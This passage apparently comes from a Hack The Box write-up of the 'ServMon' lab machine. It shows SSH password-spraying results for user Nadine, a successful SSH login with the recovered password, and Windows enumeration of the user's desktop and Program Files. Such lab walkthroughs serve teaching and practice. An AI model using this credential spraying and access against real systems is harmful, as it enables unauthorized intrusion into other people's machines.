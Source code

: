```bash
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:B3WithM30r4ga1n5tMe Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [+] Nadine:L1k3B1gBut7s@W0rk 
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:0nly7h3y0unGWi11F0l10w Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:IfH3s4b0Utg0t0H1sH0me Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:Gr4etN3w5w17hMySk1Pa5$ Authentication failed.
```

And I could find one valid password for `Nadine` : `L1k3B1gBut7s@W0rk`

Using this credential, let's open a shell.

```bash
┌──(kali㉿kali)-[~/htb/servmon]
└─$ ssh Nadine@10.10.10.184
Nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```

```bash
nadine@SERVMON C:\Users\Nadine\Desktop>dir 
 Volume in drive C has no label.                
 Volume Serial Number is 20C1-47A1              
                                                
 Directory of C:\Users\Nadine\Desktop           
                                                
02/28/2022  08:05 PM    <DIR>          .        
02/28/2022  08:05 PM    <DIR>          ..       
03/17/2025  05:05 AM                34 user.txt 
               1 File(s)             34 bytes   
               2 Dir(s)   6,312,964,096 bytes free
```



# Shell as `SYSTEM`

### Enumeration

```bash
nadine@SERVMON C:\Program Files>dir
 Volume in drive C has no label.
 Volume Serial Number is 20C1-47A1

 Directory of C:\Program Files

02/28/2022  07:55 PM    <DIR>          .
02/28/2022  07:55 PM    <DIR>          ..
03/01/2022  02:20 AM    <DIR>          Common Files
11/11/2019  07:52 PM    <DIR>          internet explorer
02/28/2022  07:07 PM    <DIR>          MSBuild
02/28/2022  07:55 PM    <DIR>          NSClient++
02/28/2022  07:46 PM    <DIR>          NVMS-1000
02/28/2022  07:32 PM    <DIR>          OpenSSH-Win64
02/28/2022  07:07 PM    <DIR>          Reference Assemblies
02/28/2022  06:44 PM    <DIR>          VMware
11/11/2019  07:52 PM    <DIR>          Windows Defender
11/11/2019  07:52 PM    <DIR>          Windows Defender Advanced Threat Prot
ection
```